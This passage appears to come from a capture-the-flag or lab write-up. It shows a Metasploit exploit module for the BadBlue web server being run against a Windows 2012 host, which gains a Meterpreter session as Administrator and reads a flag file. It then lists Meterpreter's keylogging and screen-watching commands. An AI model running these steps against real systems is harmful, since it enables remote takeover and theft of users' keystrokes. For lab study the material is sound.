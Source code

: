### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```
shell
cd /
type flag.txt
```



<details><summary>Reveal Flag: 🚩</summary></details>

### Keylogging

```bash
pgrep explorer
migrate 2420
help

# Stdapi: User interface Commands
===============================
    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```
